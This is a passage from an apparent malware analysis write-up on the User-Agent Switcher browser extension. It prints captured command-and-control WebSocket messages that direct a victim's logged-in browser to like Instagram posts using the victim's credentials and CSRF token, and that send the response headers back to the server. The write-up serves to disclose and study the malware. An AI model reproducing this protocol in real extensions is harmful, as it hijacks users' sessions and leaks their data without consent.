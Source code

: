 ```
"timeStamp":1602047524229.481,"type":"xmlhttprequest","url":"https://www.instagram.com/"}]
```

The next steps should not be much of a surprise, but the server appears to analyze the request to see if there's an active login, and then proceeds with its ultimate goal: User-Agent Switcher finally starts generating revenue by promoting content, most likely for customers paying the malware author. First, a specific post from a seemingly-paying customer (one @bebe_quiche) is loaded with another `createFetch` event:

```
Server -> Client
42["createFetch",{"callBack":"getPostParamsHandler","uri":"https://www.instagram.com/p/
CFkWDmNpFfN/","attr":{"headers":{"sec-fetch-dest":"document","sec-fetch-mode":"navigate",
"se-zzzc-fetch-site":"same-origin","sec-fetch-user":"?1","upgrade-insecure-requests":"1"},
"referrerPolicy":"no-referrer-when-downgrade","body":null,"method":"GET","mode":"cors",
"credentials":"include"}}]
```

After sending the header of the request that my browser made as a `requestHeadersHandler` event, alongside the response (this time called a `getPostParamsHandler` event), the server finds the Like link in the post, and directs my browser to promote @bebe_quiche's post:

```
Server -> Client
42["createFetch",{"callBack":"sendLikeHandler","uri":"https://www.instagram.com/web/likes/
2406145105135425485/like/","attr":{"credentials":"include","method":"POST","mode":"cors",
"headers":{"accept":"*/*","sec-fetch-dest":"empty","sec-fetch-mode":"cors",
"se-zzzc-fetch-site":"same-origin","Referer-zzz":"https://www.instagram.com/p/CFkWDmNpFfN/",
"Origin-zzz":"https://www.instagram.com","content-type":"application/x-www-form-urlencoded",
"x-ig-app-id":"936619743392459","x-csrftoken":"zepUGi0jiUJB7GfTBQ4cC2F1ZYn7J6W5",
"x-instagram-ajax":"38f51516507c","x-ig-www-claim":0,"x-requested-with":"XMLHttpRequest"},
"body":""}}]
```

Which it does successfully, *again* reporting the request headers with `requestHeadersHandler`, alongside a new `sendLikeHandler` event:

```
Client -> Server
42["sendLikeHandler",{"headerEntries":[["access-control-allow-credentials","true"],
["access-control-allow-origin","https://www.instagram.com"],["access-control-expose-headers",
"X-IG-Set-WWW-Claim"],["alt-svc","h3-29=\":443\"; ma=3600,h3-27=\":443\"; ma=3600"],
["cache-control","private, no-cache, no-store, must-revalidate"],["connection","close"],
["content-language","en"],["content-length","16"],["content-security-policy","<INSTAGRAM 
CSP OMITTED FOR BREVITY>"],["content-type","application/json; charset=utf-8"],["date","Wed, 
07 Oct 2020 05:12:07 GMT"],["expires","Sat, 01 Jan 2000 00:00:00 GMT"],["pragma","no-cache"],
["strict-transport-security","max-age=31536000"],["vary","Accept-Language, Cookie"],["x-aed",
"20"],["x-content-type-options","nosniff"],["x-fb-trip-id","1679558926"],["x-frame-options",
"SAMEORIGIN"],["x-ig-set-www-claim","hmac.AR2Ugv6Y86E7AjJ-5QIdNOX8A6Re0l5aSQ7Gmv3ykyMMCsxn"],
["x-robots-tag","noindex"],["x-xss-protection","0"]],"data":"{\"status\": \"ok\"}","ok":true,
"status":200}]
```

After this, the server continues sending `createFetch` events for loading Instagram posts and liking them, and no new event types or interactions were observed. For your exploration, I have also included a brief [traffic log](/2020/extensions-the-next-generation-of-malware/traffic.xml) exported from Burp with initial WebSocket setup as well as the requests and responses generated by these events (minus HTML data, as it only added bloat - not context).
